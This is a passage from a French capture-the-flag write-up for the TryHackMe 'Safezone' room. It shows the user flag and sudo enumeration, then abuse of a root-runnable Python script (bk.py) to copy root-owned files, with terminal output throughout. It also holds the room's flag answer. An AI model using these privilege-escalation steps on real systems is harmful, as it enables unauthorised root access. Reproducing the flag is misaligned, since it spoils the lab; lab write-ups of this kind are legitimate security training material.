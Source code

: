 On obtient un shell avec les droits yash.   
On lit le fichier flag.txt.    
Le flag est : THM{c296539f3286a899d8b3f6632fd62274}    

**root flag**

```bash
yash@safezone:~$ cat flag.txt
cat flag.txt
THM{c296539f3286a899d8b3f6632fd62274}
yash@safezone:~$ sudo -l
sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py

yash@safezone:~$ cat /root/bk.py
cat /root/bk.py
cat: /root/bk.py: Permission denied
```

On voit que l'on peut exécuter /root/bk.py avec les droits root.   
Malheureusement on peut pas avoir des informations sur le fichier bk.py

```bash
sudo -u root /usr/bin/python3 /root/bk.py
Enter filename: 
Enter destination: 
Enter Password: 
Usage: sshpass [-f|-d|-p|-e] [-hV] command parameters
   -f filename   Take password to use from file
   -d number     Use number as file descriptor for getting password
   -p password   Provide password as argument (security unwise)
   -e            Password is passed as env-var "SSHPASS"
   With no parameters - password will be taken from stdin

   -P prompt     Which string should sshpass search for to detect a password prompt
   -v            Be verbose about what you're doing
   -h            Show help (this screen)
   -V            Print version information
At most one of -f, -d, -p or -e should be used
```

Quand on met rien dans les champs on obtient une erreure qui nous indique le scripte python exécute sshpass. 

```bash
sudo -u root /usr/bin/python3 /root/bk.py
Enter filename: /root/bk.py
Enter destination: /home/yash
Enter Password: 1234

ls
bk.py
flag.txt
yash@safezone:~$ cat bk.py
cat bk.py
import subprocess
import os
file = input("Enter filename: ")
location = input("Enter destination: ")
psswd = input("Enter Password: ")
```